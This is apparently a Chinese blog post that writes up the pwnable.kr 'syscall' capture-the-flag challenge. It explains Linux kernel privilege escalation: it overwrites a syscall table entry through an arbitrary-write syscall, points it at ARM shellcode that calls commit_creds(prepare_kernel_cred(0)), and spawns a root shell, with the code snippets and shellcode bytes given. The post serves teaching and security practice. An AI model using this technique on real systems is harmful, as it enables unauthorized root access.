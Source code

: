 ```yaml
---
title: pwnable.kr之syscall
author: rk700
layout: post
redirect_from: 
tags:
  - linux
  - exploit
  - kernel
  - pwnable.kr
---
```


这道题目提供了一个编写的内核模块源码，其中添加了一个syscall，其执行的逻辑基本与`strcpy()`相同，只是会将小写字母变为大写字母。

那么，这里的漏洞就很明显了，基本上就是一个向任意地址写任意内容的漏洞，只要写入的内容不包含小写字母。接下来，就是如何利用这个syscall，获取root权限，从而读取flag文件。

接下来，便对linux内核exploit进行简单的介绍。

---

在linux下，整个内存空间中，只有一部分低地址是进程可访问的，而高地址处则是属于内核。例如，在x86的机器上，`0x00000000`到`0xbfffffff`是属于进程的，而`0xc0000000`到`0xffffffff`这1 GB是属于内核的。

出于安全考虑，进程无法访问属于内核的内存，否则恶意进程就有可能对系统内核的内存进行读取或者篡改。反过来，属于进程的内存，是可以被内核访问的。特别地，在内核太可以跳转执行用户空间中的代码。（不过，在某些硬件上，比如较新的Core CPU，Intel加入了SMEP等保护功能，限制了内核执行用户空间代码的操作）

内核空间的exploit，本质上与用户空间的exploit是相同的：都是修改执行流程，达到我们的目的。一般来说，用户空间的exploit，其目的是获取shell；而内核空间的exploit，其目的则是提升权限，获取对系统的完全控制。

Linux系统下，每个进程拥有其对应的`struct cred`，用于记录该进程的uid。内核exploit的目的，便是修改当前进程的cred，从而提升权限。当然，进程本身是无法篡改自己的cred的，我们需要在内核空间中，通过以下方式来达到这一目的：

{% highlight c %}
commit_creds(prepare_kernel_cred(0));
{% endhighlight %}

其中，`prepare_kernel_cred()`创建一个新的cred，参数为0则将cred中的uid, gid设置为0，对应于root用户。随后，`commit_creds()`将这个cred应用于当前进程。此时，进程便提升到了root权限。

这些方法的地址，可以通过`/proc/kallsyms`获取。不过，有时为了安全，管理员会隐藏内核符号的地址，此时便无法通过这一方式获取地址。

提升权限后，我们还需要返回到用户空间。在这里，我们可以运行shell，从而以root身份执行任意命令了。

---

上面是对内核exploit的简要介绍。回到这道题目，整个利用的思路大致如下：

1. 在用户空间分配一片可执行的内存
2. 将shellcode写入这片内存
3. 利用提供的syscall 223，修改系统调用表的某一项，使其指向我们的shellcode
4. 调用被篡改的syscall，从而以内核态执行shellcode，完成提权
5. 调用`exec()`，得到shell

具体地，我们使用`mmap()`新建一片可执行的内存：

{% highlight c %}
void *src = 0x40801000;
void *res = mmap(src, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
{% endhighlight %}

由于syscall 223限制小写字符，所以我们选取了一个不包含小写字符的地址，并且使用`MAP_FIXED`选项，确保`mmap()`不会分配其他地址。此处还需留意传入的地址需要按页对齐。

接下来，我们通过`memcpy()`将我们的shellcode复制到这片内存：

{% highlight c %}
memcpy(res+0x10, shellcode, 28);
{% endhighlight %}

此时，`res+0x10`，即`0x40801010`，便是要放入系统调用表目标项的内容。为了避免对其他系统调用发生影响，我们选择syscall 223后面的224。

shellcode可以通过汇编得到，例如：

{% highlight bash %}
$ rasm2 -a arm 'mov r1, r4'
0410a0e1
{% endhighlight %}

shellcode的内容如下：

{% highlight c %}
char *shellcode = "\xf0\x4f\x2d\xe9" //push

                  "\x02\x40\xa0\xe1" //mov r4, r2

                  "\x31\xff\x2f\xe1" //blx r1

                  "\x04\x10\xa0\xe1" //mov r1, r4

                  "\x31\xff\x2f\xe1" //blx r1

                  "\xf0\x4f\xbd\xe8" //pop

                  "\x1e\xff\x2f\xe1"; //bx lr
{% endhighlight %}

所以，将0, `prepare_kernel_cred()`的地址，`commit_creds()`的地址作为参数，调用syscall 224，便完成了提权。幸运的是，`/proc/kallsyms`是可用的，从而其地址是可知的。

完成提权后，通过`exec()`执行`/bin/sh`，便得到了我们需要的root的shell。

